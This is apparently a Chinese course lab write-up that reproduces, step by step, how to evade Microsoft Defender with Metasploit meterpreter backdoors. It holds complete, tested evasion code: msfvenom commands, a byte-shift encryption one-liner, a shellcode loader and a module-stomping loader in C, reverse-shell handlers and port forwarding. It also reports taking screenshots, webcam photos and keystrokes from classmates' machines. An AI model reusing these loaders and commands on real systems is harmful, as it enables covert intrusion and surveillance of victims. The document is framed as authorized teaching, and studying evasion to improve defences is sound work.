双击图片或按 Esc / 点击空白处关闭
作者：《网络攻防》课程实验三课题组的两位课题负责人——A（学号 20242110）与 B（学号 20242217），两人各自独立搭建环境完成实测。
本文性质：课程实验完整复现记录，全部操作在授权的教学实验环境中进行（自建虚拟机 + 自愿配合的同学电脑），所有样本仅用于安全教学，请勿用于任何未授权用途。
一句话剧透：在 Microsoft Defender 实时保护全程开启、不加任何排除项的前提下，msfvenom 直接生成的后门 1 分钟内全灭；而把“恶意字节”从程序里拆出去、加密成纯文本、运行时才在内存里合体的组件分离方案，让杀软扫描 0 威胁、后门照常回连——这套方法在两台完全独立的环境里都复现成功，最后还完成了跨网段的附加题实测。
先认识两位作者（也是两套实验环境的主人）：
下文一律以 A 环境 / B 环境指代两人各自的实验环境。
零基础也没关系，本文会手把手带你完成：
复刻清单（缺一样就先补上）：
| 需要 | 说明 |
|---|---|
| 一台能跑虚拟机的电脑 | 本文宿主机为 Windows 11，VMware Workstation |
| Kali Linux 2026.2 虚拟机 | 攻击机，VMware NAT 网络 |
| Windows 11 靶机 | 本文直接用宿主机本身（Defender 为系统内置） |
| Metasploit | Kali 自带（msfvenom / msfconsole） |
| mingw-w64、UPX、socat | Kali 上一条命令装好，见「实验环境」一节 |
这张名词速查表收录了后文反复出现的术语，随用随查：
| 名词 | 一句话解释 |
|---|---|
| payload / 载荷 | 攻击代码本体，本文指 meterpreter 后门的机器码 |
| msfvenom | Metasploit 自带的“后门生成器”，一条命令产出各种格式的载荷 |
| Meterpreter | 生成出来的“远控程序”，回连攻击机后可执行命令、截屏、开摄像头 |
| handler / 监听 | 攻击机上守株待兔的程序，等后门回连上门 |
| shellcode | 一段位置无关的机器码，这里就是 meterpreter 的启动代码 |
| 特征码检测 | 杀软在文件字节里找“指纹”（哈希/字节序列/YARA 规则） |
| 启发式检测 | 杀软看“长相像不像坏蛋”（高熵、可疑 API 组合、无签名等） |
| 行为检测 | 杀软盯运行时动作（申请可执行内存、异常外连、进程注入） |
| 编码器（如 shikata_ga_nai） | 把 payload 变形来躲避特征码的工具，下文会实测它已失效 |
| UPX | 老牌开源加壳器，压缩 exe 体积 |
| 组件分离 | 本文主角：把“恶意字节”和“执行逻辑”拆成两个文件 |
| 模块踩踏 | 进阶主角：把代码写进系统 DLL 的内存里执行，躲开行为引擎 |
| stager / stage | meterpreter 分两阶段工作：先落地几百分节的“引子”（stager），再拉取约 200KB 的主程序（stage） |
两个全局约定：
你的学号 是占位符，执行时替换成自己的学号；截图里 A 的文件前缀是 20242110、B 的是 20242217，就是替换后的实际效果。你的Kali_IP 一律替换成你自己 Kali 的 IP（hostname -I 查询），你的转发主机IP 是附加题里对方可达的转发主机地址（两人当时的实验室网段见环境表）；端口不必照抄 443，任意未被占用的端口都行，但生成载荷、handler、端口转发三处必须一致。现代杀软（以本文的 Microsoft Defender 为例）用三层手段分层工作：
| 检测层 | 工作位置 | 抓的是 | 对应的免杀思路 |
|---|---|---|---|
| 特征码检测 | 文件落盘/扫描时 | 已知样本的字节指纹 | 改变特征：编码、加密、重写、组件分离 |
| 启发式检测 | 执行前 | “长得像”恶意软件（高熵加壳段、VirtualAlloc+CreateThread 组合、无签名） | 伪装外观、降低熵值 |
| 行为检测 | 运行时 | 动作序列（申请可执行内存、外连、注入） | 减少暴露恶意动作——最难过的一关 |
据此，本实验设计了一条由易到难的五级样本演进路线，每一级都用 Defender 实测生死：
第0级 msfvenom 裸 exe → 预期：落盘即杀（公开模板，特征库全收录）
第1级 + msf 编码器变形 → 预期：仍杀（模板和解码存根才是特征）
第2级 C + shellcode 自编程序 → 预期：仍杀（shellcode 字节特征已成熟）
第3级 + UPX 加壳 → 预期：仍杀（知名壳特征已收录 + 高熵启发式）
第4级 组件分离 + 私有加密 → 预期：静态 0 威胁，运行回连成功前四级是“对照组”，它们的牺牲换来最有说服力的基线；第五级是本文的主角。
A、B 两人各自搭建了一套独立环境，方法在两套环境里都完整跑通。本文以 A 环境的截图贯穿五级演进与附加题；B 环境在模块踩踏、传输纪律与行为层对抗上补强，相应小节均以 B 标注：
| A 环境（主线截图） | B 环境（进阶补强） | |
|---|---|---|
| 攻击机 | Kali 2026.2（VMware NAT）192.168.42.128 | Kali 2026.2 x64（VMware NAT）192.168.96.128 |
| 靶机 | Windows 11 24H2 宿主机本身（VMnet8 192.168.42.1） | Windows 11 24H2 宿主机本身（192.168.0.111 / VMnet8 192.168.96.1） |
| 靶机工作目录 | D:\网络攻防\exp3\你的学号 | C:\你的学号lab3 |
| 载荷传输层 | reverse_tcp | reverse_https（B 当时所用；tcp 复测同样通过，见「传输层辨析」一节） |
| 查杀引擎 | Microsoft Defender 实时保护全程开启，特征库更新至 2026-09-30 | 同左 |
B 环境实测的杀软版本信息（按要求注明）：Microsoft Defender 防病毒，AMProductVersion 4.18.26080.4，病毒特征库 1.459.501.0，引擎 1.1.26080.3；Windows 11 24H2+（内核 10.0.26100）。该机另预装联想电脑管家 5.1.200.8201，手动查杀同样未发现免杀样本（第二杀软交叉验证）。
Kali 侧一次性装好工具并建工作目录：
# mingw-w64：在 Linux 上交叉编译 Windows exe；upx-ucl：加壳器
sudo apt update && sudo apt install -y mingw-w64 upx-ucl
mkdir -p ~/exp3 && cd ~/exp3Windows 侧建好工作目录，并把 Windows 版 socat.exe 放入 C:\Tools\（socat 在 Kali 自带，Windows 版需单独获取，课程资料包内有）。
Kali 里的文件怎么到 Windows？两种都行，本文两人各用了一种：
/mnt/网络攻防，对应 Windows 的 D:\网络攻防）——Kali 里生成的文件 Windows 侧立刻可见，无需传输。A 的截图里路径都是 D:\网络攻防\... 就是这个原因；~/exp3 生成，再用「传输到靶机」一节的 tar + socat + MD5 传到 Windows。另外，文中 C 源码的保存方法（0 基础版）：vi 文件名 → 按 i 进入插入模式 → 粘贴代码 → 按 Esc → 输入 :wq 回车保存退出。
联通检测：Kali ping 宿主机、宿主机 ping Kali 双向各来一次，0% 丢包即可开工。注意宿主机有两个地址（物理网卡 + VMnet8），任选能通的即可；即使 Windows 防火墙不放行 ICMP 也不影响后续——所有实际连接都是 Windows 主动连向 Kali（后门回连的本质就是“靶机主动打电话给攻击机”）。
# -p 指定载荷：windows/meterpreter/reverse_tcp
# LHOST：回连地址（填 Kali 的 IP）；LPORT：回连端口
# -f exe：输出 Windows 可执行文件；-o：输出文件名
msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的Kali_IP LPORT=443 -f exe -o 你的学号_base.exeLHOST / LPORT 每台电脑都不一样：LHOST 填你自己 Kali 的 IP（即占位符你的Kali_IP，用hostname -I查询）；LPORT 原则上任意未被占用的端口都行，本文用 443 只是借它伪装成 HTTPS 流量、更容易穿过防火墙的出站规则——你用 4444、8443 都可以，只要生成载荷、起 handler、（附加题的）端口转发三处保持一致。
生成 payload 355 字节、成品 exe 7168 字节。拷入 Windows 后 Defender 落盘即杀：



# -e 指定编码器 shikata_ga_nai；-i 15：叠代 15 次；-b '\x00'：剔除空字节
msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的Kali_IP LPORT=443 \
-e x86/shikata_ga_nai -i 15 -b '\x00' -f exe -o 你的学号_enc.exepayload 经 15 轮迭代由 355 字节膨胀至 760 字节。Defender 仍以完全相同的特征名检出：


编码器免杀在 2026 年已经失效。原因藏在数字里：密文完全变形了（355→760 字节），但成品 exe 的结构与体积由模板决定——AV 盯的是 shikata 的解码器 stub 与 msfvenom 的 PE 模板，与编码次数无关。
# msfvenom 也能产出其他平台格式，这里生成 Java 载荷
msfvenom -p java/meterpreter/reverse_tcp LHOST=你的Kali_IP LPORT=443 -f jar -o 你的学号_backdoor.jar


jar 落地后同样遭隔离，且保护历史里同屏出现两条 Behavior:Win32 行为检测记录——换了文件格式与运行平台，msfvenom 生成物的特征依旧被收录。
B 环境交叉验证：用 reverse_https 生成同样的三级样本，结果一致——裸 exe（payload 566 字节/exe 7680 字节）与编码 10 次版（payload 638→881 字节，exe 仍是 7680 字节）落盘即杀，同样特征 Trojan:Win32/Meterpreter.RPZ!MTB；jar（6289 字节）被隔离（VirTool:Java/Meterpreter.A）。两台机器、两种传输层、三种格式，全灭——公开工具的生成物早已是杀软特征库的一部分。
编码器失效，那就抛开 msfvenom 的 exe 模板，自己写程序：先用 msfvenom 把载荷输出成 C 语言字节数组，再自己写加载器执行。
# -f c：输出为 C 数组格式；shikata_ga_nai 编码 3 次
msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的Kali_IP LPORT=443 \
-e x86/shikata_ga_nai -i 3 -b '\x00' -f c -o shellcode.c加载器 cs.c 的核心只有四步——申请内存 → 拷入 → 起线程执行：
unsigned char buf[] = "/* msfvenom -f c 输出的字节数组，此处省略 */";
int main(void) {
void *execMem = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT,
PAGE_EXECUTE_READWRITE); /* ① 申请一块可执行内存（data 节默认不可执行，必须显式申请） */
if (execMem == NULL) return 1;
memcpy(execMem, buf, sizeof(buf)); /* ② 把 shellcode 拷进去 */
HANDLE thread = CreateThread(NULL, 0,
(LPTHREAD_START_ROUTINE)execMem, NULL, 0, NULL); /* ③ 起线程让它跑起来 */
WaitForSingleObject(thread, INFINITE); /* ④ 等它执行完 */
return 0;
}
# i686-w64-mingw32-gcc：编译出 32 位 Windows exe 的交叉编译器
i686-w64-mingw32-gcc cs.c -o 你的学号_cs.exe扫描结果：Defender 仍检出同一特征名 Trojan:Win32/Meterpreter.RPZ!MTB（14:25）。

为什么还是死？ 藏进了自己的程序，但 shellcode 的字节本身没变——2026 年的 Defender 对 meterpreter shellcode 字节特征的识别已经成熟。只要恶意字节还完整地躺在文件里，静态查杀总有办法命中。
给 cs.exe 套上 UPX 壳（-o 输出成新文件，保留原版）：
upx 你的学号_cs.exe -o 你的学号_cs_upx.exe
实测坑：CantPackException: section size problem。UPX 4.2.4 直接对 msfvenom 模板生成的 exe（如 base 版）会报这个错——msf 模板的 PE 节表不规整，不满足 UPX 4.x 的检查。解决：把加壳对象换成 mingw 编译的 exe（PE 结构规整）。
加壳结果：仍被检出，而且详情里明确标注了 →(UPX)（14:28）。

为什么加壳也救不了？两个原因：① UPX 是最知名的壳，壳本身的特征早已被收录（截图里的 →(UPX) 标注就是证据）；② 加壳后的高熵数据段会触发启发式检测。
诚实备注：Veil-Evasion 我们没有做。 课件提到的这个自动化生成框架，两人都未实测——2026 版 Kali 上它依赖 wine、安装笨重、成功率低，且课件已给出实测结论：其生成物的特征同样被收录（历史检出 19/58）。相比之下，本文的手工组合路线不需要额外安装任何东西。若你的课程要求覆盖 Veil，“按课件口径评估后放弃”同样是一种有效的实测结论。
到这里，前四级全军覆没，死因汇总：
| 样本 | 技术 | 结果 | 死因 |
|---|---|---|---|
| base 版 | msfvenom 模板 | 落盘即杀（13:51） | 模板字节特征 |
| enc 版 | shikata_ga_nai ×15 | 落盘即杀（13:54，同特征名） | 特征在模板与解码存根，编码只改密文 |
| backdoor.jar | java/meterpreter | 隔离（19:27） | 换平台也没用，特征照样收录 |
| cs.exe | C + shellcode | 检出（14:25） | shellcode 字节特征 |
| cs_upx.exe | + UPX | 检出（14:28，标注 UPX） | 壳特征 + 高熵启发式 |
结论已经呼之欲出：只要“恶意字节”以完整形态存在于文件的任何角落，静态查杀就能抓到。那把它拆走呢？
把后门拆成两个“各自无害”的文件：
┌─────────────────┐ ┌──────────────────┐
│ encoded.txt │ │ loader.exe │
│ 纯十六进制文本 │ 运行时 │ 只有通用 API 调用 │
│ （逐字节+1加密） │ ──────→ │ 读文本→解密→执行 │
│ 杀软眼里：普通文本│ 内存中 │ 杀软眼里：普通小程序│
└─────────────────┘ 合体 └──────────────────┘
两份“无害”的文件，直到运行那一刻才在内存里合体
—— 而静态扫描只看文件，看不到内存encoded.txt：载荷逐字节 +1 加密后转成十六进制文本。杀软不会对 txt 报毒，且内容已“变脸”，熵值也低（逐字节 +1 属于轻加密，不会像 AES 那样触发高熵启发式）；loader.exe：只有 fopen/VirtualAlloc/memcpy/CreateThread 这类通用 API 调用，文件里不含任何载荷字节，静态扫描无特征可匹配。# ① -f raw：输出最原始的裸 shellcode（不带任何模板）
msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的Kali_IP LPORT=443 -f raw -o sc.raw
# ② 逐字节 +1 加密并转十六进制文本（perl 一行流）
perl -e 'binmode STDIN; binmode STDOUT; while (read(STDIN,$b,1)) { printf "%02x", (ord($b)+1) % 256 }' < sc.raw > encoded.txt
# ③ 完整性铁律：加密文本字节数必须恰为 raw 的 2 倍，否则就是加密损坏
wc -c sc.raw encoded.txt # 应输出 355 / 710——恰好 2 倍

实测坑 1：% 256必须写！ 载荷里的 0xFF 字节 +1 后若不取模，printf "%02x"会输出三字符 “100”，把整个文件写坏——loader 解出垃圾代码、CreateThread 一执行就闪退，排查走了大弯路。加密端与解密端（loader 里的-1）必须严格互逆。
实测坑 2：LHOST 必须是 Kali 当前 IP。 图8 顶部那次“生成成功”其实是废品——占位符没替换，这种载荷运行时永远连不回来（真实踩坑现场见「踩坑实录」一节）。
#include <windows.h>
#include <stdio.h>
#define MAX_LEN 4096
unsigned char buf[MAX_LEN];
int main(void) {
FILE *fp = fopen("encoded.txt", "r"); /* ① 只读“无害”的文本，文件里没有恶意字节 */
if (fp == NULL) return 1;
int i = 0; unsigned int ch;
while (i < MAX_LEN && fscanf(fp, "%2x", &ch) == 1)
buf[i++] = (unsigned char)ch; /* ② 两位两位读成字节 */
fclose(fp);
for (int j = 0; j < i; j++) buf[j] = (unsigned char)(buf[j] - 1); /* ③ 解密：+1 的逆运算 */
void *execMem = VirtualAlloc(NULL, i, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if (execMem == NULL) return 1;
memcpy(execMem, buf, i);
HANDLE thread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)execMem, NULL, 0, NULL);
if (!thread) return 1;
WaitForSingleObject(thread, INFINITE);
CloseHandle(thread); VirtualFree(execMem, 0, MEM_RELEASE);
return 0;
}i686-w64-mingw32-gcc loader.c -o 你的学号_loader.exe这个版本能过静态、能回连（「运行层」一节实测成功），但它有一个行为层软肋：VirtualAlloc(PAGE_EXECUTE_READWRITE) 一次申请 RWX 私有内存，正是行为引擎重点盯防的申请模式。
实测对照，也是给你的排错提示：这套最简思路在两套环境都验证通过——静态 0 威胁、reverse_tcp 稳定回连（B 环境一次偶发运行时拦截的复测修正见「传输层辨析」一节）。如果你复刻时静态扫描过了、运行却被杀，先复测一次（行为判定有概率性）；仍被拦再试试下一小节 B 的模块踩踏版，或换传输层。
B 环境把执行方式升级为“模块踩踏”，加载器 你的学号exp.c 三个要点：
VirtualProtect 改 RX，避免 RWX 一次到位的申请模式。#include <windows.h>
#include <stdio.h>
#include <string.h>
#define MAX_LEN 4096
unsigned char buf[MAX_LEN];
static LPVOID FindTextRange(HMODULE hMod, SIZE_T need) { // 在已加载模块里找能装下载荷的 .text 段
PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)hMod;
PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((BYTE *)hMod + dos->e_lfanew);
PIMAGE_SECTION_HEADER sec = (PIMAGE_SECTION_HEADER)
((BYTE *)&nt->OptionalHeader + nt->FileHeader.SizeOfOptionalHeader);
for (int s = 0; s < nt->FileHeader.NumberOfSections; s++, sec++)
if (!memcmp(sec->Name, ".text", 5) && sec->Misc.VirtualSize > need)
return (LPVOID)((BYTE *)hMod + sec->VirtualAddress);
return NULL;
}
int main(void) {
FILE *fp = fopen("encoded.txt", "r"); // 只读“无害”的文本
if (fp == NULL) return 1;
int i = 0; unsigned int ch;
while (i < MAX_LEN && fscanf(fp, "%2x", &ch) == 1)
buf[i++] = (unsigned char)ch;
fclose(fp);
if (i == 0) return 1;
for (int j = 0; j < i; j++) buf[j] = (unsigned char)(buf[j] - 1); // -1 解密
HMODULE hMod = LoadLibraryA("msacm32.dll"); // 踩踏目标：常驻但本进程不会调用
if (hMod == NULL) return 1;
LPVOID exec = FindTextRange(hMod, (SIZE_T)i);
if (exec == NULL) return 1;
DWORD old;
if (!VirtualProtect(exec, (SIZE_T)i, PAGE_READWRITE, &old)) return 1; // 段改 RW 写入
memcpy(exec, buf, i);
if (!VirtualProtect(exec, (SIZE_T)i, PAGE_EXECUTE_READ, &old)) return 1; // 再改 RX 执行
FlushInstructionCache(GetCurrentProcess(), exec, i);
HANDLE t = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec, NULL, 0, NULL);
if (t == NULL) return 1;
WaitForSingleObject(t, INFINITE);
return 0;
}x64 变体 你的学号exp64.c 仅一处不同：fopen("encoded64.txt", "r")，其余完全一致。多做一个 x64 变体不是重复劳动——它验证的是模块踩踏这套手法对 64 位 PE 同样成立（.text 段定位与 RW→RX 流程在 x64 结构下依然有效），也是第十节“UPX 加壳版回连”闭环的前提；实际攻防里 64 位目标才是主流，只做 x86 会把方法的有效性锁死在旧场景。B 环境对两个变体分别编译（x64 版带 -static 静态链接）：
i686-w64-mingw32-gcc 你的学号exp.c -o 你的学号exp.exe # x86 主线
x86_64-w64-mingw32-gcc 你的学号exp64.c -o 你的学号exp64.exe -static # x64 变体
ls -l *.exe *.raw *.txt注意：x86 版 你的学号exp.exe 可直接复用 6.2 生成的 encoded.txt（加载器与载荷格式无关）；而 x64 版读的是 encoded64.txt，必须单独生成，B 当时的命令如下（用的是 reverse_https，所以载荷比主线的 tcp 版大；你统一用 reverse_tcp 也完全等价，替换 payload 名即可）：
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=你的Kali_IP LPORT=443 -f raw -o sc64.raw
perl -e 'binmode STDIN; binmode STDOUT; while (read(STDIN,$b,1)) { printf "%02x", (ord($b)+1) % 256 }' < sc64.raw > encoded64.txt
wc -c sc64.raw encoded64.txt # 应输出 841 / 1682——恰好 2 倍
加壳对象选自编译的加载器（前文说过，UPX 对 msfvenom 模板 PE 不兼容）：
cp 你的学号exp64.exe 你的学号exp64_upx.exe && upx 你的学号exp64_upx.exe
upx -l 你的学号exp64_upx.exe # 复核压缩信息
为什么会出现两次 UPX 实验？ 它们回答的是两个不同的问题：第五节 A 给 cs.exe（内嵌载荷） 加壳，验证“加壳能不能救活必死样本”——不能，照样被抓；这里 B 给不含载荷的踩踏版加载器加壳，验证“加壳能不能与组件分离叠加”——能，且压缩到 52.14% 后功能完好（运行层闭环见「加壳版加载器的运行层验证」一节）。
加壳是否影响加载器功能、加壳版能否照常回连，「加壳版加载器的运行层验证」一节专门验证。
谁需要这一节？ 按 A 的方式用共享文件夹操作的读者，文件已经直接落在 Windows 里，本节可跳过；在 Kali 家目录生成文件的读者（B 的方式）才需要下面的 tar + socat 传输。
一个 tar 包带走全部 8 个产物（对照组 3 个 + 组合免杀组 5 个，文件名按第三节主线的命名；B 的原始截图里叫 L0_msf.exe / L1_enc.exe / reverse.jar，是同样三个东西），Kali 先监听，Windows 再连入：
# Kali：打包 + MD5 基线 + 启动监听（15 秒连接窗口）
tar czf exp3.tgz 你的学号_base.exe 你的学号_enc.exe 你的学号_backdoor.jar 你的学号exp.exe 你的学号exp64.exe 你的学号exp64_upx.exe encoded.txt encoded64.txt
md5sum exp3.tgz # 7f9806cee83eb63ace87c4b48c44d6d6
timeout 15 nc -lvnp 9999 < exp3.tgz
# Windows：在 Kali 监听后的 15 秒内回车（socat 在这里是客户端，Kali 未监听时连接会被拒绝）
C:\Tools\socat.exe -u TCP:你的Kali_IP:9999 - > C:\你的学号lab3\exp3.tgz
certutil -hashfile C:\你的学号lab3\exp3.tgz MD5 # 与 Kali 端一致 = 传输无损
tar -xzf C:\你的学号lab3\exp3.tgz -C C:\你的学号lab3
dir C:\你的学号lab3
实测坑：socat 连不上？ socat 在这一步是客户端，必须 Kali 先nc -lvnp监听（注意timeout 15的 15 秒窗口）再在 Windows 回车。另外 PowerShell 运行当前目录程序要加.\前缀。
对照一下两个环境的“放榜”画面。
A 环境：Defender 自定义扫描组件分离版 loader——发现 0 个威胁（2026/9/30 14:37，已扫描 1 个文件）：

B 环境：对加载器、加密文本、UPX 加壳版逐个自定义扫描，Get-MpThreat 无新增记录——全部 0 威胁：

而对照组的下场前面已经亲眼看过了：图1/图2 落盘即杀、图3 遭隔离、图5/图7 连自编程序加壳都被抓。同一目录、同一杀软、同一时刻——五个“实心”样本全灭，两个“拆空”的文件安然无恙，静态免杀得证。
jar 为什么“多活了”几分钟？ B 环境的时间线是：22:42 前后解包落盘 → 22:48 对照组 exe 弹窗 → 22:49 jar 遭隔离——jar 并没有逃过检测，只是排在队列后段。对比 A 环境（文件经共享文件夹写入，检出与写入发生在同一分钟）可知：实时保护的触发时机（写入即扫、访问触发、空闲扫描）与云查杀回调存在时间差，而 jar 归档还要先展开内部 class 结构、分析开销更大，自然更慢。“晚杀”不等于“没杀”——反过来，防御方同样不能指望“落盘即报”永远即时。
静态过了，还要能跑。Kali 起监听（handler 的载荷、端口必须与生成时完全一致）：
# A 环境主线：reverse_tcp 443（handler 载荷/端口必须与生成时一致）
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 你的Kali_IP; set LPORT 443; run"也可以把监听配置存成资源脚本，一行起监听（失败排查时特别好用）：
cat > 你的学号_handler.rc <<'EOF'
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 443
exploit -j
EOF
msfconsole -q -r 你的学号_handler.rc# Windows：建议在 cmd 里前台运行——loader 用相对路径读 encoded.txt，务必先 cd 到两文件所在目录；
# 双击通常也能跑（资源管理器会把工作目录设为 exe 所在目录），但排查问题时看不到报错
cd D:\网络攻防\exp3\你的学号 # A 用共享文件夹路径；走 socat 传输的读者 cd 到你解包的目录（如 C:\你的学号lab3）
.\你的学号_loader.exeDefender 实时保护全程开启的状态下，meterpreter 会话成功建立：stage 199238 字节，sysinfo 确认 Windows 11 24H2（Build 26200）、getuid 为 SILENCEWANG\ASUS；任务管理器里 loader（32 位）作为后台进程安静地跑着，只占 2.5 MB 内存。

上面这幕成功画面之前，有一次完整的失败：loader 双击无反应，cmd 前台运行秒退，handler 一直 “no session was created”。按排查顺序走：确认两文件同目录 ✓、Defender 保护历史无执行时查杀 ✓、核对 shellcode 的回连地址——最终定位为生成 encoded.txt 时 payload 的 LHOST 与 Kali 当时 IP 不一致（虚拟机重启后 IP 变了），重新以正确 IP 生成 encoded.txt 后会话立即建立。

教训：载荷里的回连地址是生成时写死的，IP 变了载荷就成废品；排查无会话问题时，第一件事就是核对 LHOST。
B 环境最初的一次测试中，reverse_tcp 载荷运行时曾被 Defender 行为引擎拦截（特征名 Behavior:Win32/Meterpreter.gen!D）。当时把它归因于 reverse_tcp 的工作方式：它是分阶段载荷——先落地数百字节的 stager 建立连接，再由 stager 自行申请一块 RWX 内存、把约 200KB 的第二阶段（metsrv）收进去执行，“外连 → 自申请 RWX → 接收大段代码 → 执行”在理论上是一条显眼的行为特征链。
但后续多次复测推翻了这个归因：同样的 reverse_tcp 载荷在 B 环境反复运行，均未再出现拦截；A 环境也始终稳定。也就是说，那次拦截是一次概率性判定（云查杀特征时点、环境状态等都可能影响），既不是“tcp 必被拦”的规律，也与传输层没有必然关系。
两环境的最终实测结论一致：reverse_tcp 与 reverse_https 都能稳定回连（图18 是 B 以 reverse_https 完成的回连记录）。本文正文统一采用 reverse_tcp。给遇到拦截的读者两条经验：先复测（行为判定有概率性，本例复测即未复现）；仍被拦再尝试换传输层（https 由系统组件 WinINet/TLS 收发，行为面更小）或升级加载器（模块踩踏）：

UPX 一节只验证了静态层，这里补运行层：换 x64 的 reverse_https handler，直接运行加壳版加载器，检验“压缩 + 模块踩踏执行”在壳内是否功能完好、是否会引入新的行为特征。
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST 你的Kali_IP; set LPORT 443; run"
UPX 环节完整闭环：压缩至原体积的 52.14% → 静态 0 威胁（图15）→ 运行回连正常。
前面的靶机都与攻击机同处一个 NAT 网段。真实场景里目标往往在另一个网络——附加题把整条链路搬到校园网：靶机是一台独立的 Windows 11 笔记本（Legion Y7000 IRX9，主机名 LH754168，校园网 WLAN 10.30.5.38，Defender 实时保护开启、特征库最新），它无法直接路由到 Kali 的 NAT 网段（192.168.42.128）。
在 A 的 Windows 主机（校园网地址 10.30.43.151）上用 socat 监听 443、把流量转发给 Kali（端口跟随你为 payload 选的 LPORT，不必是 443。netsh interface portproxy 的等价写法我们实测未能转发成功，故只保留验证过的 socat）：
# 首次监听时 Windows 防火墙会弹窗，选“允许”；若下文的可达性预检不通，先检查入站规则是否放行了该端口
.\socat.exe TCP-LISTEN:443,fork,reuseaddr TCP:你的Kali_IP:443
回连地址必须是对方可达的地址——转发主机的校园网地址 10.30.43.151，重新生成一份加密载荷：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=你的转发主机IP LPORT=443 -f raw -o sc_net.raw
perl -e 'binmode STDIN; binmode STDOUT; while (read(STDIN,$b,1)) { printf "%02x", (ord($b)+1) % 256 }' < sc_net.raw > encoded_net.txt
wc -c sc_net.raw encoded_net.txt # 355 / 710，×2 校验通过
对方电脑先做可达性预检（避免白跑一趟）：
Test-NetConnection 你的转发主机IP -Port 443 # TcpTestSucceeded : True 即链路已通
对方电脑的 Defender 状态：病毒和威胁防护开启、安全智能最新（2026/9/30 9:51）、最近一次快速扫描 32853 个文件未发现威胁——loader 与加密文本落地未检出。
关键细节：改文件名！ loader 源码里写死的是fopen("encoded.txt")——把encoded_net.txt改名为encoded.txt再和 loader 放同一目录（或改源码重新编译，但改名最快）。漏了这一步 loader 会因读不到文件直接退出。

对方双击运行 loader（改名后的 encoded.txt 与其同目录；Kali 侧 handler 不用改，仍监听 443——变的只是 payload 的回连地址），会话立即回连成功：会话来自 10.30.5.38、目标用户 LH754168\15753；sysinfo 确认对方系统 Windows 11 24H2+（x64，Build 26200）；随后执行 screenshot（存为 tfXmPYAe.jpeg）与 webcam_list/webcam_snap（对方为集成摄像头 Integrated Camera，拍照存为 uDtmIUqg.jpeg）。

第一轮的靶机在另一个网段，需要转发链路；这一轮把靶机换成一台与 Kali 同处一个 NAT 网段的 Windows 电脑（主机名 WYC，网段内地址 10.30.42.143，经转发主机 NAT 出站）——连端口转发都不需要了，payload 的 LHOST 直接填 Kali 地址，Kali 起 handler 后对方运行 loader 即可。
实测结果（2026-10-07）：Defender 未检出 loader，回连成功；这轮的控制力演示更进一步——除了 webcam_snap，还用 keyscan_start/keyscan_dump 做了键盘记录：对方敲下的按键被实时捕获（截图里的一串 ^H 即退格键的记录）。

| 附加题实测信息 | 内容 |
|---|---|
| 对方电脑 | Lenovo Legion Y7000 IRX9，主机名 LH754168，Windows 11 24H2+（Build 26200，x64） |
| 网络 | 校园网 WLAN 10.30.5.38（与转发主机 10.30.43.151 跨网段） |
| 杀软 | Microsoft Defender 防病毒（实时保护开启，安全智能更新至 2026-09-30 9:51） |
| 样本 | loader.exe（331 KB）+ encoded.txt（由 encoded_net.txt 改名而来，LHOST=10.30.43.151） |
| 实测结果 | 杀软未检出；回连成功，取得 screenshot 与 webcam_snap |
| 第二轮（同局域网） | 靶机 WYC（10.30.42.143），免端口转发；未检出，回连成功，取得 webcam_snap 与键盘记录（keyscan） |
这个环节补上了真实攻击的“网络维度”：payload 回连的地址必须是对方可达的——NAT 网段对外不可路由，就用端口转发把 443“搬”出去。整个过程与真实入侵的后渗透阶段几乎一致，也因此更具防御警示意义（见「原理深挖」一节）。
两套环境的全部实测结果汇总（杀软均为 Microsoft Defender，实时保护全程开启）：
| 样本 / 环节 | 技术 | A 环境 | B 环境 |
|---|---|---|---|
| 裸 exe | msfvenom 模板 | 落盘即杀 RPZ!MTB（13:51） | 落盘即杀 RPZ!MTB（22:48） |
| 编码器 | shikata ×15 / ×10 | 落盘即杀（13:54，同特征名） | 落盘即杀（同特征名） |
| jar | java/meterpreter | 隔离 VirTool:Java/Meterpreter.A（19:27） | 隔离（同特征，22:49） |
| C + shellcode | 自编程序内嵌载荷 | 检出（14:25） | （直接进入组合方案） |
| UPX 加壳 | cs.exe / 模板 exe | 检出（14:28，标注 →(UPX)） | 模板 PE 不兼容 UPX（CantPack），只加壳自编译 exe |
| 组件分离 | 加密文本 + loader | 扫描 0 威胁（14:37）；reverse_tcp 回连成功 | 扫描 0 威胁；https 回连成功，tcp 复测同样通过 |
| 加密文本 | 逐字节 +1 | 710 字节（跨网段版），0 威胁 | 1080/1682 字节，均为 raw 的 2 倍，0 威胁 |
| 模块踩踏版 | .text 踩踏 + RW→RX | — | 静态 0 威胁；https 回连成功 |
| UPX 版加载器 | 压缩 52.14% | — | 静态 0 威胁 + x64 https 回连成功 |
| 传输完整性 | MD5 校验 | — | 两端一致（7f98…d6d6） |
| 跨网段附加题 | 端口转发 + 专属载荷 | 对方电脑未检出，回连成功，取得屏幕/摄像头 | — |
| 同局域网第二轮 | 免转发直连 + keyscan | 对方电脑（10.30.42.143）未检出，回连成功，取得摄像头/键盘记录 | — |
三条核心结论：
Behavior:Win32/Meterpreter.gen!D），但复测多次均未复现，两环境最终 tcp/https 均稳定回连——不能凭一次拦截下“必被拦”的结论。静态免杀 ≠ 运行时免杀这条底线不变，遇到拦截先复测、再换路径，防御必须纵深。为什么基线必死。 msfvenom 的 exe/jar 都是公开模板，字面特征早已进特征库。图1 与图2 的对比证明：编码器只改变密文部分，改变不了模板和解码存根。同理，C+shellcode 藏得住结构、藏不住字节（图5）；UPX 壳本身也是公开物（图7 的 →(UPX) 标注）。
